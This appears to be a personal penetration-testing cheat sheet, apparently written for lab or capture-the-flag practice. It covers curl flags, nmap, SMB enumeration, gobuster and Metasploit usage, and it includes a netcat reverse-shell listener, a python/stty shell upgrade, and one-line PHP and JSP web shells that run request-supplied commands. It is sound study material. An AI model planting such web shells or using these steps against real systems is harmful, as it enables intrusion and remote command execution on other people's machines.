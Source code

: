 # HackTheWorld
### **CHEAT SHEET- https://devhints.io/curl**

## cURL is used for sending GET/POST requests to http/s

Curl can be used to get files or send data to servers using just command line and doing it fast. 

CURL 

-s silent most noise and make it easier to read

-v Verbose, easier to understand and shows almost everything included in request and connection

-i used to see request head and body

-I capitol i and used to see JUST header of request. 

-X sending a specific request such as POST or PUT, 

-d “DATA”; example with key for key.php ‘-d “key=UNENCRYPTED_KEY_HERE”

-L follows redirects page may give after login

-u username:pass used for logins with credentials if using login after url loads

## Structure of cURL

**basic connection**

$ curl http://<SERVER_IP>:<PORT>/ 

**if sending http authentication for logins with basic auth**

$ curl http://username:password@<SERVER_IP>:<PORT>/

**if sending with login using PHP logins after CONNECTION**

$ curl -X POST -u ‘username:admin&password:admin’ http://<SERVER_IP>:<PORT>/

## App/software/programs

- **SSH**
- **Netcat/ncat/nc**
    - Socat
    - Reverse shell capability using:
    - $ nc -lvnp 1234: listen for connection via only IP on port 1234
- **TMUX**
    - CTRL-B for prefix
        - SHIFT+”: splits up and down
        - SHIFT+%: splits to left or right
        - SHIFT+$: rename
        - Z: pause and unpause tmux
- **FTP**
- **SMB**(server message block)
    - SMB Client
        - necessary for attacks to open smb.
        - -N silences authentication if not needed and used to list shares
        - -L lists smb shares of available
        - $ smbclient -N -L \\\\<IP_ADDRESS>: used to list shares on smb port for a machine
- **NMAP**
    - -sC: makes nmap use scripts to obtain more information
    - -sV: makes nmap run a version scan.
    - -p-: makes nmap run all TCP ports
    - nmap --script <script name> -p<port> <host>: runs script in nmap
    - nmap -sV --script=banner <target>: grabs banner during scan of serviceversions.
    - SMD ENUMERATION: [SMD SCRIPT](https://nmap.org/nsedoc/scripts/smb-os-discovery.html)
- **GoBuster**
    - tool that allows for performing DNS, vhost, and directory brute-forcing
    - $ gobuster dir -u http://<IP_ADDRESS>/ -w /path/to/common/wordlist.txt
- **Metasploit**
    - $ msfconsole: starts metasploit
        - > search exploit <NAME>
        - > USE *copy path to exploit”
        - > show options: configures current exploit before deploy
        - > set <option> <value>: example for setting RHOSTS, the “victim” to ip 10.10.10.40
            - > set RHOSTS 10.10.10.40
        - > check: verifies if RHOST is actually vunerable to this attack.
        - > run | exploit
    - Searchsploit
- ExploitDB
- Github, [payloadAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/)
- Github, [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/peass-ng/PEASS-ng)
  
## Shell commands

$ python -c ‘import pty; pty.spawn(“/bin/bash”)’

upgrades shell connection to python/stty shell

CTRL+Z pause session in bash connection

input following stty command

$ stty raw -echo

$ fg

[enter]

## Resize STTY terminal

*in normal terminal:* $ echo $term

*in stty:* $ stty size

## Web Shell

`<?php system($_REQUEST["cmd"]); ?>`

opens web shell running php

same is JSP
`<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
## LINKS

### Common Ports - [Wayback Machine](https://web.archive.org/web/20240315102711/https://packetlife.net/media/library/23/common-ports.pdf)

### VIM Cheat Sheet - [Watch Your Eyez](https://vimsheet.com/)

### HTTP STATUS CODES - [WIKIPEDIA WOOO](https://en.wikipedia.org/wiki/List_of_HTTP_status_codes)

### HackTricks - [Pretty Cool Site](https://book.hacktricks.wiki/en/index.html)
